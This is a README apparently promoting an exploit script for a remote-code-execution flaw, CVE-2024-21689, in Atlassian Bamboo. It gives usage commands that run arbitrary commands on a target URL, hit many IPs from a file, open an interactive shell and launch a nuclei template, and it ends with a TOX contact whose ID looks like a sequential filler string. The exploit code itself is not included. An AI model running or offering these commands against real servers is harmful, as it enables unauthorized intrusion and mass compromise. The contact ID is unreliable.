 #CVE-2024–21689 RCE Bamboo Data Center and Server Atlassian

## CVSS Score - 7.6 🔥

## Description
This High severity RCE (Remote Code Execution) vulnerability CVE-2024-21689  was introduced in versions 9.1.0, 9.2.0, 9.3.0, 9.4.0, 9.5.0, and 9.6.0 of Bamboo Data Center and Server. This RCE (Remote Code Execution) vulnerability, with a CVSS Score of 7.6, allows an authenticated attacker to execute arbitrary code which has high impact to confidentiality, high impact to integrity, high impact to availability, and requires user interaction.

### Running the Script

- **Single URL Mode**:
  ```bash
  python3 exploit.py -u http://<target-ip>:8090 -c "whoami"
  ```
- **File Mode** (for multiple IPs):
  ```bash
  python3 exploit.py -f ips.txt -c "whoami"
  ```
- **Interactive Shell Mode**:
  ```bash
  python3 exploit.py -u http://<target-ip>:8090 --shell
  ```
- **Nuclei**:
  ```bash
  nuclei exploit.yaml -f file.txt
  ```

## Contact

Contact me in TOX: 6FDB3C4D5E6F7G8H9I0J1K2L3M4N5O6P7Q8R9S0TQDQ2
